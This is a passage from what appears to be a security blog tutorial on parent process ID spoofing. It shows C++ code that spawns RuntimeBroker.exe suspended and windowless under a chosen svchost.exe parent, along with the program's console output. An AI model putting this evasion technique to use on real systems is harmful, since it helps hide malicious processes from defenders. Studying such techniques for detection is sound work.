 ```cpp
    CreateProcess(spawnProcess, NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (STARTUPINFO*)&si, &pi);
    printf("[+] Spawning %ws (PID: %u)\n", spawnProcess, pi.dwProcessId);

    return 0;
}
```

If we run this code, we got the following output. 
```powershell
PS C:\Users\Meelo\Desktop> .\PickyPPIDSpoofing.exe
[+] Spoofing svchost.exe (PID: 2740) as the parent process.
[+] Got a handle of 0x00000000000000AC
[+] Spawning C:\Windows\System32\RuntimeBroker.exe (PID: 772)
```

The main difference of this output from the previous one is the PID of `svchost.exe` has changed from **860** to **2740**. We can also see that we've successfully obtained a process handle. As a result, `RuntimeBroker.exe` was spawned under the parent process of `svchost.exe`.

![Successfully Spawned RuntimeBroker.exe](/static/img/2021-11-22-picky-ppid-spoofing/spawned.png)